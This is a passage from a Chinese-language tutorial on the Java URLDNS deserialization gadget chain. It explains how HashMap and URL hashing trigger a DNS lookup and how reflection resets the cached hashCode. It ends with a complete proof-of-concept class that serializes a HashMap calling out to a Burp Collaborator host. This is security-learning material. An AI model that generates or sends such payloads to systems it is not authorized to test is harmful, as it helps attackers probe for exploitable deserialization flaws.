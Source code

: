 ```
public V put(K key, V value) {
    return putVal(hash(key), key, value, false, true);
}
```

put这里也会调用一次hash函数,和readObject方法最后我们利用那里一样,所以这里到后面也会去调用一次getHosttAddress方法,然后触发DNS请求,这样就分不清到底是序列化的时候触发的DNS请求还是反序列化触发的

但是看这里hashCode函数

```
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```

hashCode本身的值是-1

```
private int hashCode = -1;
```

然后回去调用handler.hashCode,所以这里通过反射去修改hashCode属性的值,先让他为-1以外的任何数,调用put方法后再修改回-1,这样在最后反序列化的时候他的值还是-1就会去触发DNS请求

URL类的构造函数很多就直接用最简单的这种

```
public URL(String spec) throws MalformedURLException {
    this(null, spec);
}
```

所以最后的exp

```
package URLDNS;

import java.io.*;
import java.lang.reflect.*;
import java.net.URL;
import java.util.HashMap;

public class serializetest {
    public static void serialize(Object obj) throws Exception{
        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        os.writeObject(obj);
    }

    public static void main(String[] args) throws Exception{

        HashMap map = new HashMap();
        URL url =new URL("http://110en57fndj6zv9umjox9w5in9tzho.burpcollaborator.net");//这里的URL直接用burp生成一个,在里面验证DNS请求
        Field hashCodefiled = url.getClass().getDeclaredField("hashCode");//获取hashCode属性
        hashCodefiled.setAccessible(true);//私有属性,需要暴力反射
        hashCodefiled.set(url,1);//先把hashCode的值设置为1
        map.put(url,123);//此时hashCode值为1,不会去触发DNS请求
        hashCodefiled.set(url,-1);//将hashCode的值设置为-1,这样反序列化的时候才会去触发DNS请求
        serialize(map);//序列化对象

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("ser.bin"));
        fos.readObject();//反序列化对象,此时hashCode的值为-1,触发DNS请求
    }
}
```